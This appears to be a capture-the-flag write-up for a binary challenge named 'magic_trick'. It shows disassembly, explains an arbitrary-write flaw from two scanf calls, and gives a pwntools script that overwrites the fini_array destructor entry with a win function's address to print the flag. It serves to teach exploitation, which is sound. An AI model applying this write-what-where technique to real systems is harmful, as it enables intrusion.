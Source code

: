 ```asm
   0x00000000004006d4 <+71>:    lea    rax,[rbp-0x18]
   0x00000000004006d8 <+75>:    mov    rsi,rax
   0x00000000004006db <+78>:    lea    rdi,[rip+0x141]        # 0x400823
   0x00000000004006e2 <+85>:    mov    eax,0x0
   0x00000000004006e7 <+90>:    call   0x400560 <__isoc99_scanf@plt>
   0x00000000004006ec <+95>:    lea    rdi,[rip+0x153]        # 0x400846
   0x00000000004006f3 <+102>:    call   0x400520 <puts@plt>
   0x00000000004006f8 <+107>:    mov    rax,QWORD PTR [rbp-0x18]
   0x00000000004006fc <+111>:    mov    QWORD PTR [rbp-0x10],rax
   0x0000000000400700 <+115>:    mov    rdx,QWORD PTR [rbp-0x20]
   0x0000000000400704 <+119>:    mov    rax,QWORD PTR [rbp-0x10]
   0x0000000000400708 <+123>:    mov    QWORD PTR [rax],rdx
   0x000000000040070b <+126>:    nop
   0x000000000040070c <+127>:    mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400710 <+131>:    xor    rax,QWORD PTR fs:0x28
   0x0000000000400719 <+140>:    je     0x400720 <magic+147>
   0x000000000040071b <+142>:    call   0x400530 <__stack_chk_fail@plt>
   0x0000000000400720 <+147>:    leave  
   0x0000000000400721 <+148>:    ret    
```

We can see that the program calls scanf two times and take unsigned long long, first it takes a value, second input takes another input and attempt to write the value given by the first input to the address of the second input, that means it allow us to write any value to any address having r/w access to.
Since the RELRO is disabled, we can overwrite the destructors which will be run once the process will come to an end to the address of the win function which prints the flag:-

```py

from pwn import *

p = remote("dctf-chall-magic-trick.westeurope.azurecontainer.io", 7481)
elf = ELF("magic_trick")
p.recvline()
p.recvline()
p.recvline()

p.sendline(str(elf.symbols['win']))
p.recvline()
p.sendline(str(elf.symbols['__do_global_dtors_aux_fini_array_entry']))
p.interactive()

Running the exploit:-

❯ python3 magic_trick.py
[+] Opening connection to dctf-chall-magic-trick.westeurope.azurecontainer.io on port 7481: Done
[*] '/home/d4mianwayne/Pwning/CTFs/ductf/magic_trick'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Switching to interactive mode
thanks
You are a real magician
dctf{1_L1k3_M4G1c}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
```
